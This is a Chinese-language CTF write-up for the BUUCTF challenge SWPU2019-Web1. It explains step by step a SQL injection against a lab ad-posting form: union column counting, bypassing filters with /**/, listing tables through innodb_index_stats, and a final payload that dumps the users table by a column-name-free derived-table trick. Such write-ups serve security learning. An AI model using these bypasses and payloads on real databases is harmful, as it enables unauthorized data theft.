 ```yaml
---
title: SWPU2019-Web1
tags:  [CTF,BUU]
date: 2020-09-13 10:22:57
categories: [CTF,BUU]
---
```




# Buu刷题记

## 一、题目打开介绍

![image-20200913095530231.png](https://i.loli.net/2020/09/13/7cQB8umN1sZLyOp.png)这是题目本身打开的样子，继续进入题目

## 二、做题

![image-20200913095634097.png](https://i.loli.net/2020/09/13/YHLftTQmUd1besK.png)

简单的登陆界面和注册界面，没有sql注入**已经尝试**

<!--more-->

![image-20200913095733239.png](https://i.loli.net/2020/09/13/cfFtN41xLoAQEjO.png)

申请发布广告

![image-20200913095759770.png](https://i.loli.net/2020/09/13/sOEZrzKgn2LqU5t.png)

习惯性的测试

![image-20200913095857022.png](https://i.loli.net/2020/09/13/vDZlT7YSPexgVrJ.png)

然后开始尝试注入，抓包，

![image-20200913095931186.png](https://i.loli.net/2020/09/13/RjvFaOTiMcZuBgG.png)
![image-20200913095944857.png](https://i.loli.net/2020/09/13/eZLKpvNyosAEJnP.png)

两个都要，经过union注入判断列数，发现是22列

然后收集信息

```
database() web1
version() 10.2.26-MariaDB-log
```

然后开始使用**information**库进行爆表，爆字段
![image-20200913100124933.png](https://i.loli.net/2020/09/13/6fwnvVYWotsuXDS.png)

然后没有用，再加上一下字符被毁掉

```
and or updatexml 空格
```

用/**/代替空格，然后继续解决无法爆出表的问题

经过百度发现还有一个表可以爆出表名

https://mariadb.com/kb/en/mysqlinnodb_index_stats/

就是上面这个库，然后开始继续操作就行

```
tables() FLAG_TABLE,news,users,gtid_slave_pos,ads,users
```

这就是已经取得的数据。

下面解决无法爆字段的问题

```
select * from users
```

如果直接使用这个命令的·话，他会返回多条数据然后并且报错，并且我们现在无法知道字段名，必须再想其他的办法

```
select 1,2,3 union select * from users
```

这样就可以造出临时表，字段名分别可以知道了**需要猜一下字段数**

最后 payload

```
title=-1'and/**/union/**/select/**/1,(select/**/group_concat(b)from(select/**/1,2,3/**/as/**/b/**/union/**/select/**/*/**/from/**/users)x),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22'&content=a&ac=add
```

这里有两个注意的点

### 1.临时表再次使用时必须要有一个别名

### 2.记得带括号

### 3.数字不能做字段名

